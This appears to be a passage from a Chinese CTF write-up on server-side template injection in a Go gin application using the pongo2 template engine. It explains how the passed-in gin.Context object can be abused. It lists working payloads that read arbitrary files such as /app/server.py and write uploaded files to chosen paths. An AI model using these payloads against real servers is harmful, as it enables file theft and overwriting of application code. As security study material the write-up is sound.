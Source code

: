 从代码中可以看到，我们把`c *gin.Context`传送给模板引擎，所以在ssti时可以使用`c *gin.Context`这一变量。

参考文档:

[https://github.com/flosch/pongo2](https://github.com/flosch/pongo2)

[https://pkg.go.dev/github.com/gin-gonic/gin](https://pkg.go.dev/github.com/gin-gonic/gin)

[https://django.readthedocs.io/en/1.7.x/topics/templates.html](https://django.readthedocs.io/en/1.7.x/topics/templates.html)

[https://www.kancloud.cn/shuangdeyu/gin\_book/949420](https://www.kancloud.cn/shuangdeyu/gin_book/949420)

以及这篇博客

[https://www.imwxz.com/posts/2b599b70.html#template%E7%9A%84%E5%A5%87%E6%8A%80%E6%B7%AB%E5%B7%A7](https://www.imwxz.com/posts/2b599b70.html#template%E7%9A%84%E5%A5%87%E6%8A%80%E6%B7%AB%E5%B7%A7)

go只允许访问传入对象下的属性和方法，那么就可以从c \*gin.context入手

> **`c *gin.Context`的使用**
> 
> [https://pkg.go.dev/github.com/gin-gonic/gin#pkg-index](https://pkg.go.dev/github.com/gin-gonic/gin#pkg-index)
> 
> 因此可以得到，文件读取的payload：
> 
> ```plain
> {%include c.Request.Referer()%} #通过请求头的Referer
>  {%include c.Request.Host()%} #通过请求头的Host
>  {%include c.Query(c.ClientIP())%} #通过?ip\_add=/app/server.py读取
> ```
> 
> 写文件的payload
> 
> ```plain
> {{c.SaveUploadedFile(c.FormFile(c.Request.Host),c.Request.Referer())}}
>  
>  {%set form=c.Query(c.HandlerName|first)%}
>  {{c.SaveUploadedFile(c.FormFile(form),c.Request.Referer())}}&m=file
>  
>  {%set form=c.Query(c.HandlerName|first)%}{%set path=c.Query(c.HandlerName|last)%}{%set file=c.FormFile(form)%}{{c.SaveUploadedFile(file,path)}}&m=file&n=/app/server.py
> ```
> 
> 这三个payload其实大同小异，只是后两个使用了过滤器（c.HandlerName的值为 main/route.Admin ）

并且 go的template只允许调用1个返回值，或者2个返回值并且第二个返回值为error类型的函数 形如a(res)或者a(res,err)  
看gin.Context下的几个不需要传参的函数，这里几个函数都能拿到字符串，然后将字符串放在请求参数上面可以获取任意字符串

> 源码：[https://github.com/gin-gonic/gin/blob/master/context.go](https://github.com/gin-gonic/gin/blob/master/context.go)

```plain
总结
func (c *Context) HandlerName() string {
    return nameOfFunction(c.handlers.Last())
}
// 结果：main/route.Admin ，可以得到m,n
func (c *Context) FullPath() string {
    return c.fullPath
}
// 这个结果为/admin，first之后是'/'，与传参冲突
func (c *Context) ClientIP() string {}
// 结果：10.0.0.1，首尾字符串结果一样，不采用
func (c *Context) RemoteIP() string {}
// 同上
func (c *Context) ContentType() string{}
```